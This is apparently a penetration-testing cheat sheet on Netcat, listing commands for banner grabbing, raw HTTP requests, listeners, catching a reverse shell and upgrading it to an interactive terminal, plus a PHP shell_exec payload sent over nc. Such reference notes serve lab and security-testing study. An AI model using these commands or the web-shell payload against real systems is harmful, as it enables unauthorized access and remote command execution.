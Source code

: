 ```yaml
---
title: Netcat
desc: Manages network connections. Also known as 'nc'.
tags: [ActiveRecon, Linux, Network, PrivEsc, ReverseShell, SMTP, Web]
alts: [Ncat, Telnet]
website:
render_with_liquid: false
---
```


## Useful Commands

```sh
# Banner Grabbing
nc 10.0.0.1 21
nc 10.0.0.1 22
```

<br />

## HTTP request

```sh
echo -en "GET / HTTP/1.1\nhost: netcat\n\n" | nc 10.10.44.191 80
```

<br />

## Listen

```sh
# HTTP
nc -lvnp 80

# HTTPS
nc -lvnp 443
```

<br />

## Listen (background)

```sh
# Add '&'
nc -lvnp 4444 &
```

<br />

## Listen for Reverse Shell

```sh
nc -lvnp 4444

# ---- Activate -------------------------

# Interactive shell
/bin/bash -i

# Upgrade to fully functional terminal
$ SHELL=/bin/bash script -q /dev/null
# or
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<br />

## PHP Shell

```sh
nc <target-ip> 80
<?php echo shell_exec('whoami') ?>
```

<br />

## SMTP Banner Grabbing

```sh
nc -vn <target-ip> 25
```